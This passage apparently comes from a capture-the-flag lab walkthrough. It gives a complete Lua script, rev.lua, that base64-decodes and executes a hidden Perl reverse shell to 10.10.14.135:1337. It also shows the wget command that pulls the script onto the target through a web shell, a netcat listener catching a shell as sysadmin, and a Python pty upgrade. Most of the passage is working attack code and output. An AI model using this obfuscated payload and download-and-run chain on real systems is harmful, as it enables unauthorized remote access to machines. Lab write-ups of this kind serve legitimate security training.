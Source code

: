Because we can only run lua files, we can base64 encode the perl payload so that
we don't have to mess with escaping quotes and write a lua script that will
decode it and in as a system command. Lets create a file called `rev.lua`:
```lua
local b='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
function dec(data)
    data = string.gsub(data, '[^'..b..'=]', '')
    return (data:gsub('.', function(x)
        if (x == '=') then return '' end
        local r,f='',(b:find(x)-1)
        for i=6,1,-1 do r=r..(f%2^i-f%2^(i-1)>0 and '1' or '0') end
        return r;
    end):gsub('%d%d%d?%d?%d?%d?%d?%d?', function(x)
        if (#x ~= 8) then return '' end
        local c=0
        for i=1,8 do c=c+(x:sub(i,i)=='1' and 2^(8-i) or 0) end
        return string.char(c)
    end))
end

local encoded_payload = 'cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTAuMTAuMTQuMTM1IjskcD0xMzM3O3NvY2tldChTLFBGX0lORVQsU09DS19TVFJFQU0sZ2V0cHJvdG9ieW5hbWUoInRjcCIpKTtpZihjb25uZWN0KFMsc29ja2FkZHJfaW4oJHAsaW5ldF9hdG9uKCRpKSkpKXtvcGVuKFNURElOLCI+JlMiKTtvcGVuKFNURE9VVCwiPiZTIik7b3BlbihTVERFUlIsIj4mUyIpO2V4ZWMoIi9iaW4vc2ggLWkiKTt9Oyc='
local payload = dec(encoded_payload)
print(payload)
os.execute(payload)
```

After starting a HTTP server with `python -m http.server 1337`, lets use the web
shell console to download the file on the remote machine:
```
wget http://10.10.14.135:1337/rev.lua -O /tmp/rev.lua
```

And after running it again as before we now have a connection on our netcat
listener:
```
$ nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.181.
Ncat: Connection from 10.10.10.181:41144.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
sysadmin
```

Lets use python to get a better shell:
```
python3 -c "import pty; pty.spawn('/bin/bash')"
```
